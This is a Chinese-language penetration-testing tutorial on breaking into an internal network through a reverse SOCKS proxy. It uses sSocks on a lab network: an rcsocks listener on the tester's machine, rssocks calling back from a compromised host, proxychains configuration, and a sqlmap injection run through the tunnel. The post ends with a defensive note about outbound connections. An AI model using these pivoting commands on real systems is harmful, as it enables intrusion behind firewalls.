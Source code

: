 ```yaml
---
title: Socks代理反弹突破内网
date: 2017-11-16 14:45:52
tags:
---
```


**随着信息安全意识的提升，越来越多的信息系统前端均部署有防火墙，系统管理员根据业务需求将内部必要的服务端口通过端口映射等手段映射到公网中，如默认****web**服务端口**80**、**MSSQL**数据库服务端口*1433等。通过部署防火墙可以将信息系统内部区域与公网逻辑隔离开来，利用相关的策略有效避免或减轻来自外部的攻击。

对于渗透测试者来说，如何绕过防火墙的阻挡在内网展开渗透测试成为亟需解决的问题，本文介绍了在夺取映射到外网的内网服务器权限后，如何利用socks代理反弹获得内网访问权限。

1.sSocks

sSocks是一个[socks代理](http://www.freebuf.com/news/topnews/111545.html)工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，其最新版为0.0.13，可在以下链接处下载。

[http://sourceforge.net/projects/ssocks/](http://sourceforge.net/projects/ssocks/)

下载解压后，执行命令编译。

```
./configure && make
```

编译完成，进入src目录，会发现有nsocks、ssocksd、ssocks、rcsocks，其功能说明介绍如下：

程序 功能
**nsocks** 类似通过Socks5代理后的netcat，可用来测试socks server
**ssocksd** 用来开启Socks5代理服务
**ssocks** 本地启用Socks5服务，并反弹到另一IP地址
**rcsocks** 接收反弹过来的Socks5服务，并转向另一端口

**2.模拟网络环境说明**

 本文模拟的网络环境见下图1，渗透测试端IP为192.168.10.50，内网区域IP段192.168.206.0/24，内网区域能正常访问192.168.10.0/24，现假设已获得192.168.206.130权限。 

[![模拟的网络环境](http://image.3001.net/uploads/image/20130901/20130901105859_75679.jpg)](http://image.3001.net/uploads/image/20130901/20130901105859_75679.jpg)

**3.实施Socks代理反弹**
**1)本地监听端口**
在渗透测试端192.168.10.50执行

```
./rcsocks -l 1088 -p 1080 -vv
```

等待远程Socks5服务器访问本地1080端口，创建端口1080与本地端口1088的连接通道，如图2。 

[![Socks代理反弹突破内网](http://image.3001.net/uploads/image/20130901/20130901105926_77843.jpg)](http://image.3001.net/uploads/image/20130901/20130901105926_77843.jpg)

**2)开启Socks5代理服务，反弹**
在192.168.206.130上执行

```
./rssocks -vv -s 192.168.10.50:1080
```

启用Socks5服务，反弹到192.168.10.50的端口1080上，如图3。 

[![开启Socks5代理服务，反弹](http://image.3001.net/uploads/image/20130901/20130901110001_38329.jpg)](http://image.3001.net/uploads/image/20130901/20130901110001_38329.jpg)

此时在渗透测试端192.168.10.50可看到通道连接成功，效果如图4。

[![通道连接成功](http://image.3001.net/uploads/image/20130901/20130901110020_58042.jpg)](http://image.3001.net/uploads/image/20130901/20130901110020_58042.jpg)

**4.利用proxychains进行Socks5代理**
通过前面的步骤，Socks5代理已创建完成了。由于在渗透测试过程中，需要使用不同的工具程序，而在各程序中分别配置Socks5代理信息较为繁琐，而部分程序并不支持配置Socks5代理。为了简化这些操作，我们可以采用proxychains。
proxychains是一个代理客户端软件，可以支持几乎所有程序的代理，如ssh，telnet，ftp等。利用proxychains，程序能在代理的环境下被加载运行，而本身不需要具备代理功能。使用前需要对proxychains进行简单配置，打开配置文件proxychains.conf（在BT5位于/etc/proxychains.conf），如图5所示，在[ProxyList]处添加
**socks5 127.0.0.1 1088**

[![利用proxychains进行Socks5代理](http://image.3001.net/uploads/image/20130901/20130901110043_92020.jpg)](http://image.3001.net/uploads/image/20130901/20130901110043_92020.jpg)

配置成功后若要启动程序，仅需要在启动程序命令前加上proxychains。
**1)启用浏览器firefox，在终端执行命令：**

```
proxychains firefox
```

firefox启动成功，访问192.168.206.135的web服务如图6，通过代理访问成功。

[![通过代理访问成功](http://image.3001.net/uploads/image/20130901/20130901110125_93242.jpg)](http://image.3001.net/uploads/image/20130901/20130901110125_93242.jpg)

**2)利用sqlmap进行注入：**
先切换到sqlmap目录
cd /pentest/database/sqlmap
proxychains python sqlmap.py -u “存在SQL注入的链接” –dbs
注入成功，注入点信息及获取数据库信息如图7所示。

[![利用sqlmap进行注入](http://image.3001.net/uploads/image/20130901/20130901110208_52827.jpg)](http://image.3001.net/uploads/image/20130901/20130901110208_52827.jpg)

**5.后记**
由于系统管理员的疏忽或者业务需求所致，防火墙一般仅对由外向内发起的数据连接进行严格判断、过滤、甚至阻断而忽略由内往外的连接。因此，在此种情况下，通过攻陷映射到公网的端口服务，利用反弹便可获取内网访问权限，给内网安全带来极大的威胁。在信息安全建设与运维过程中，不仅要加强映射到公网的服务安全，也要重视由内到外连接的安全威胁。
